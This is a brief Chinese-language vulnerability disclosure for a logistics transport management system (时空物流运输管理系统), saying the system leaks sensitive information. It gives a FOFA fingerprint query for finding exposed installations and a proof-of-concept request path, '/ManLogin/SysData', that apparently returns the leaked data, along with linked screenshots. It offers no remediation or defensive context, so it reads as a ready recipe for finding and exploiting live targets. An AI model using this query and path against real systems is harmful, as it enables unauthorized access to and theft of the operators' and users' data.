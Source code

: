 # 时空物流运输管理系统存在敏感信息泄露漏洞
时空物流运输管理系统存在敏感信息泄露漏洞

## fofa
```rust
body="/Images/ManLogin/name.png"
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1735477340408-41d21d71-9f58-4612-8ef5-4a91da7874c7.png)

## poc
```rust
/ManLogin/SysData
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1735477463215-4ec0d8fe-e862-4f71-b56e-67159ca9c1e3.png)


